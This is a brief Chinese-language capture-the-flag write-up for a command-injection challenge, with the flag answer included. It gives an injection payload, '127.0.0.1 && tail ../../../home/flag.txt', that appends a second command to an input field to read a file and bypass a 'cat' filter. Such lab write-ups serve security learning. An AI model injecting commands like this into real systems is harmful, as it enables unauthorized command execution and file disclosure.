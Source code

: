 # Command_Execution

> 命令注入

## 思路分析

> 直接用&&字符拼接是可以执行命令的,然后一层层的查找flag文件,发现文件位于/home/flag.txt,用cat读取被过滤,用tail读取获取flag

## payload

> 127.0.0.1 && tail ../../../home/flag.txt

## flag

> cyberpeace{a84dd895483169d57010b67ea611db30}
